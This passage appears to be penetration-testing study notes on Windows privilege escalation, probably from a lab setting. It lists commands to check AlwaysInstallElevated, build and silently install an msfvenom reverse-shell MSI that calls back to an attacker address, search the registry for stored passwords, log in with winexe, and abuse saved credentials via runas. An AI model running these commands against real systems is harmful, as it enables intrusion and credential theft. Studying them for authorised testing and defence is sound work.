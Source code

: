1. reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
2. reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated



WInpeas will highlight for us if these options are enabled

Now all we need to do is just create a msfvenom payload and execute it

> msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.14.30.255 LPORT=6969 -f msi -o reverse.msi


Now transfer the file and just execute it


> msiexec /quiet /qn /i PATHTOMSIFILE




## Passwords

After finding passwords , we can use winexe to login just like ssh 


#### Registry passwords

.\winpeas.exe quiet filesinfo usersinfo

we can find credentials in configuration files,registry keys etc

The following command will display all the contents having password keyword in registry

> reg query HKLM /f password /t REG_SZ /s

Autologon registry is an important registry and we can target this specific registory so we get less output

> reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"

Now  we can connect to windows shelljust like ssh using the credrntials using a service known as winexe

> winexe -U 'admin%password' //10.10.5.159 cmd.exe

#### Saved Credentials

.\winpeas.exe quiet cmd windowscred

Windows save credentials of some user so other user can run some commands on behlaf of that user similiar to sudo
 we can use these saved credentials to run commands as admin user
.
Run the command to see which users credntials are saved

> cmdkey /list

Now we will use runas command to execute any command as the admin

> runas /savecred /user:SavedUsername ANYCOMMAND

We can run our reverse shell as admin and get root shell

#### Searching config files for passwords
